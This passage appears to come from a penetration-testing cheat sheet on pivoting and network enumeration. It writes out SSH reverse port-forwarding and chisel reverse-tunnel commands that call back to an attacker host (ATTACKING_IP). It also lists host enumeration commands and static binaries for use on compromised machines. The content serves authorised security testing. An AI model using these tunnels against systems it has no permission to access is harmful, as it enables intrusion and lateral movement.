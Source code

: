 > Target

```bash
    ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

### Chisel

> Client

```bash
chisel client ATTACKING_IP:LISTEN_PORT R:PROXY_PORT:127.0.0.1:8443
```

> Server

```bash
chisel server -p LISTEN_PORT --reverse
```

Connect:

<https://127.0.0.1:PROXY_PORT>

# Network enumeration

## Useful command

```bash
arp -a 
ifconfig
cat /etc/hosts
netstat -nat
cat /etc/resolv.conf
```

## Static-binaries

Tools:

- ag / the_silver_searcher
- binutils
- file
- ht
- nano
- nmap
- p0f v3
- pv (Pipe Viewer)
- python
- socat
- strace
- tcpdump

Source: <https://github.com/andrew-d/static-binaries>
